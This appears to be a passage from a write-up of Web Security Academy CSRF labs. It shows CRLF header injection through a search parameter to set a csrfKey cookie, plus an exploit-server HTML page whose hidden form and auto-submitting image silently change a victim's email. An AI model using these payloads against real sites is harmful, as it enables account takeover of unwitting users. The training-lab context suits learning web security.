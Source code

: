 This is the same that:
```
/?search=prueba;
Set-Cookie: csrfKey=a
```

If you try this in repeater you see that you're injecting a new Set-Cookie header.

Now if you put that csrf_key value is hacked uou're going to obtain the same csrf token:

```
/?search=prueba;%0d%0aSet-Cookie:%20csrfKey=hacked
```

The idea is to build a server that send the request setting the csrfKey with our value, in this case we are going to use the user wiener.

Using endpoint search to change the csrfKey with the value of wiener user:

```
/?search=prueba;%0d%0aSet-Cookie:%20csrfKey=PAx77mZ8o8EcRrTpVlzziQzXsspv8Uqf
```

We have to add `; SameSite=None` to define that a cookie is accesible from different places:

```
/?search=prueba;%0d%0aSet-Cookie:%20csrfKey=PAx77mZ8o8EcRrTpVlzziQzXsspv8Uqf%3b%20SameSite=None
```

This is the code of the exploit server:

```html
<form class="login-form" name="change-email-form" action="https://0a88002604f05ab082590102009600ec.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="pwned@pwned.com">
    <input type="hidden" name="csrf" value="NeeYYsBLswID0LiPFJPnc0AfcO4evpot">
</form>

<img src="https://0a88002604f05ab082590102009600ec.web-security-academy.net/?search=prueba;%0d%0aSet-Cookie:%20csrfKey=PAx77mZ8o8EcRrTpVlzziQzXsspv8Uqf%3b%20SameSite=None" onerror="document.forms[0].submit();">
```

1. We copy the html code of the email form and modify like other labs.
2. We add the csrf token of user wiener.
3. We create an image(default size is 1x1) with the url of search term that have the payload injecting the Set-Cookie header.
4. When the request of the image finish this give an error and when give that error we send the form with the email and the csrf token.

How the csrfKey and csrf token are valid we can do a valid request for change an email of the user that open our server.

# CSRF where token is duplicated in cookie

In this case if we obtian the request when change email if we remove some letter of csrf key or csrf token obtain a 400 bad request, but if we change both with the same value that is 200. This is a disaster you can put what you want in both fields and obtain a 200 ok.
